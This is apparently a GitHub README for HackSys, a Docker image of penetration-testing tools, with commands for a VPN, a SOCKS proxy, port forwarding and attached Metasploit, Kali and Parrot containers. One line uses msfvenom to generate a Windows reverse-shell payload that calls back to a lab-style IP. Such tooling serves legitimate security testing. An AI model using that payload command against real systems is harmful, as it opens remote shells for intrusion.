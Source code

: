 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* <4GB
* Security tools installed:
  * nmap
  * [sqlmap](http://sqlmap.org/)
  * [impacket](https://github.com/SecureAuthCorp/impacket)
  * SecLists
  * searchsploit
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  * [CeWL](https://digi.ninja/projects/cewl.php)
  * wfuzz
* Development tools installed:
  * Python 2 and 3, with common pip modules (requests colorama beautifulsoup4 scrapy)
  * Go
  * Java
  * Ruby
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)
* Zsh

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Ensure there is a single openVPN configuration file within the curreent directory and run the main VPN container with this:

```
docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys
```

### Port Forward

To port forward for example RDP (3389) from 192.168.162.120:

```
docker run --rm -it --network=container:vpn --entrypoint fwd -e FWD_TO=192.168.162.120:3389 antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

You may want to upgrade with:

```
apt-get update && apt-upt install -y kali-linux-default
```

#### Parrot

```
docker run --rm -it --network=container:vpn -v $PWD:/app parrotsec/security
```

You may want to upgrade with:

```
apt-get update && apt-upt install -y parrot-tools
```

## Building

```
docker pull alpine
docker build -t antfie/hacksys .
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```

## Useful Shell Aliases

```zsh
alias hsv='docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn'
alias hsp='docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys'
alias hs='docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys'
alias hsm='docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework'
alias hsmv='docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework'
alias hsk='docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling'
alias hsps='docker run --rm -it --network=container:vpn -v $PWD:/app parrotsec/security'
```